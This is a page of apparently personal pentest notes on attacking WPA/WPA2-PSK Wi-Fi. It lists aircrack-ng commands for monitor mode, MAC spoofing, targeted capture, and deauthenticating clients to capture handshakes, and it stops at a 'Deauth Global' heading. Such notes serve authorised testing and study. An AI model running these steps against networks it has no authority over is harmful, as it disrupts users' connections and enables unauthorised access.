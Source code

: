 ```yaml
---
title: Hacking Wifi - WPA/WPA2 PSK
category: Hacking Wifi
order: 2
---
```


# Introduction

![WPA2-PSK Message Exchange](/hackingnotes/images/wpa_psk.png)

# Setup

```
sudo airmon-ng check kill
sudo airmon-ng
sudo airmon-ng start wlan0

# Change MAC
ifconfig wlan0mon down
macchanger -s wlan0mon
ifconfig wlan0mon up
```

To restart network services:

```
sudo airmon-ng stop wlan1mon
sudo service NetworkManager restart
```

Start capturing:

```
# 802.11.g is for 5GHz if you don't have the suitable hardwarte try to use --band ab
sudo airodump-ng -c <CH> --bssid <BSSID> [--band abg] --write <OUT_FILE> <IFACE>
```

# Handshake Capture (Clients needed)

## Deauth

Consist on deauthenticate a client in order to capture de re-authentication handshake.

```
aireplay-ng -0 10 -a <BSSID> -c <CLIENT> <IFACE>
```

## Deauth Global
